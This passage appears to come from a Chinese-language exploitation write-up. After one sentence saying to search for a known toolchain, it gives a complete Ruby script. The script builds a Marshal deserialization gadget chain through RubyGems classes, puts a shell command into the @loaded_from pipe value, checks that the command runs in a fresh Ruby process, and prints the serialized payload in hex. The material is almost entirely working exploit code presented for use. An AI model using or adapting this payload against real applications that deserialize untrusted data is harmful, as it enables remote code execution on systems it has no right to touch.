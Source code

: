 因为Ruby没有现成的利用工具，所以我们需要在搜索引擎上搜索一下是否有记录的工具链，然后找到这样的脚本

```
#!/usr/bin/env ruby

class Gem::StubSpecification
  def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|id 1&gt;&amp;2")

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
  def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file &lt;=&gt; other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each`{``}` rescue nil
puts


class Gem::Requirement
  def marshal_dump
    [$dependency_list]
  end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts


puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
  pipe.print payload
  pipe.close_write
  puts pipe.gets
  puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts
```